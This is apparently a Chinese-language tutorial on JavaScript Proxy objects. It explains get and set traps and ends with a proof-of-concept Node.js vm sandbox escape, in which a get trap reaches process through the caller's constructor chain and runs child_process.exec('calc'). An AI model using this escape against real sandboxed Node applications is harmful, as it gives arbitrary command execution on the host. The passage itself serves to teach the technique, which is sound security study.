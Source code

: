 ```
let proxy = new Proxy(target, handler)
```

- `target` —— 是要包装的对象，可以是任何东西，包括函数。
- `handler` —— 代理配置：带有“钩子”（“traps”，即拦截操作的方法）的对象。比如 `get` 钩子用于读取 `target` 属性，`set` 钩子写入 `target` 属性等等。

`get`钩子,读取`target`的属性，当使用`target`的属性时，会被触发

```javascript
let numbers = [0, 1, 2];

numbers = new Proxy(numbers, {
    get(target, prop) {
        if (prop in target) {
            return target[prop];
        } else {
            return 0; // 默认值
        }
    }
});

console.log((numbers[1]));// 1
console.log(numbers); //[ 0, 1, 2 ]
console.log((numbers[11]));// 0
```

`set`钩子,写入 `target` 属性,当写入属性时，set钩子触发

```javascript
let numbers = [];

numbers = new Proxy(numbers, {
    set(target, prop, val) {
        if (typeof val == 'number') {
            target[prop] = val;
            return true;
        } else {
            return false;
        }
    }
});

numbers.push(1);
numbers.push(2);
console.log(numbers.length);// 2
console.log(numbers);
numbers.push("test"); // TypeError
```

`numbers.push("test");`我们这里push了一串字符串，于是拦截返回false

利用`get`钩子,进行命令执行，无论访问`res`的任意属性，`get钩子`都会触发

```javascript
const vm = require("vm");

const script =
    `new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').exec('calc');
        }
    })
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
```